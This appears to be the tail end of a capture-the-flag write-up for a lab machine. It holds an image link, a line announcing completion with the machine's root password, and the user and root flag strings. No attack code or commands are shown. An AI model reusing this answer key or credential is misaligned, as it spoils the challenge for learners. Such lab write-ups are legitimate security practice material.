  

>ok 结束 root密码：Imthepassthaty0uwant!
>

>userflag:HMVOHIMNOTREAL
>
>rootflag:HMVNOTINPRODLOL
>